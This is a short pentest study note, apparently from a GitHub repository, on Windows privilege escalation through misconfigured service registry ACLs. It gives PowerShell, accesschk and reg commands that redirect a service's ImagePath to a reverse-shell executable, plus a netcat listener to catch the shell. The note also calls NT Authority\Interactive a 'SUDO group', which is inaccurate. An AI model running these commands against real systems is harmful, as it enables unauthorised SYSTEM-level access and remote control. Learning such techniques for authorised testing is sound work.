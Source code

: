 - - -
ACL= An access control list (ACL) is a list of rules that specifies which users or systems are granted or denied access to a particular object or system resource. Access control lists are used for controlling permissions to a computer system or computer network.

The windows registry stores entries for each service.

Since registry entries have ACLs, If the ACL is misconfigured, it may be possible to modify a service's configuration even if we cannot modify the service directly.
- - -

## Verifying Permissions :

Here For explanation ,
lets assume the service be ==>  `HKLM:\System\CurrentControlSet\Services\regsvc`

```powershell
powershell -exec bypass
```

```powershell
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

```powershell
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

> [!Note] 
> At the ‘**NT Authority\Interective**’ Has Full control( KEY_ALL_ACCESS ) over the registry entry.

> [! What is "NT Authority\Interective" ?? ]  
> This is a SUDO group comprise to all users who can log-on to the syatem locally.
<br>

#### Do we have permissions to start the service.

```powershell
.\accesschk.exe /accepteula -ucqv user <service_name>
```

##### Also caheck the current values in the service registry entry. Note the Image-Path.

```powershell
reg query HKLM\System\CurrentControlSet\Services\regsvc
```

##### Change the image path.

```powershell
reg add HKLM\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\temp\reverse.exe /f
```

```sh
nc -nvlp 9090
```

```powershell
net start <service_name>
```
<br>

- - -

